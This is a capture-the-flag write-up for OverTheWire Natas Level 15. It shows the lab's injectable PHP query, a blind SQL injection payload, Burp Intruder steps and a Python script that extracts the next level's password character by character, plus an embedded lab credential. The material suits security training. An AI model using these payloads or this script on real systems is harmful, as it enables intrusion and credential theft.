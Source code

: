 # Level 15
Pushing things further, here we do Blind SQL injection. Also, we'll make a python script to do the same.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again unsanitized user input is inserted into query.<br/>
 - Although no output is displayed after query execution, we can make use of blind SQL injection.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg. we'll leverage this behaviour<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with username and password column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is a log from my local linux lab to make use of `ascii` and `substring` function to smuggle password.<br/>
```sql
# Testing query in Lab
# Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

# We compare first character of author name with ascii code  # Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

# Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

Now we build our payload accordingly.<br/>
Our payload -> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`
Just like above, we are checking if the first character of password of user natas16 has ascii code of 65 .i.e. its A
Below we send this to Burp, our failed attempt

![Level 15 solution](./images/Level15_solution.png)

Our successfull attempt, Now we know, our password begins with word 'W', ascii code 87.

![Level 15.1 solution](./images/Level15.1_solution.png)

Now instead of doing every character one by one, we use Burp intruder. we manually change the `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

![Level 15.2 solution](./images/Level15.2_solution.png)

Payload settings
![Level 15.3 solution](./images/Level15.3_solution.png)

We found the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level. <br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.


```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 proxy = {'http': 'http://localhost:8080'}
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```

I Added a cool effect that displays the found characters and also searches for next character.

Here is the script in action
[![asciicast](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN.svg)](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN)


<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
